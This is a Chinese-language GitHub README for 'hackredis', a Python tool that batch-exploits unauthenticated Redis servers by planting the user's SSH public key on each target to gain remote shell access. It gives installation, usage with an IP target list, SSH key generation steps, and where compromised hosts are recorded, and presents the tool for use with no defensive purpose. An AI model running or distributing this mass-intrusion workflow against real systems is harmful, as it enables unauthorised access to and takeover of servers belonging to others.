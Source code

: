 # hackredis
之前@Matt写了一个批量扫描redis未授权的[脚本](https://github.com/code-scan/rescan)。然后我根据[Redis未授权访问导致可远程获得服务器权限](http://www.freebuf.com/vuls/85021.html)写了一个批量获取的脚本。暂时还没写多线程，写的很烂，凑活用吧。

**安装依赖**
```
☁  ~ sudo easy_install redis
```

**使用**
```
☁  redis  python hackredis.py                                  
usage: hackredis.py [-h] [-l IPLIST] [-p PORT] [-r ID_RSAFILE] [-sp SSH_PORT]

For Example:
-----------------------------------------------------------------------------
python hackredis.py  -l ip.txt -p 6379 -r foo.txt -sp 22

optional arguments:
  -h, --help     show this help message and exit
  -l IPLIST      the hosts of target
  -p PORT        the redis default port
  -r ID_RSAFILE  the ssh id_rsa file you generate
  -sp SSH_PORT   the ssh port
```

首先需要ssh密钥:
```
☁  ~  ssh-keygen -t rsa
☁  ~  cp ~/.ssh/id_rsa.pub /tmp/foo.txt
```

之后将ip列表填入ip.txt，然后就可以跑了。
成功的将会输出到success.txt,执行成功但是ssh连接失败的会存储在unconnect.txt，操作失败的会存储在fail.txt。

测试截图：

![Alt text](./1449803881546.png)

http://zone.wooyun.org/content/24370
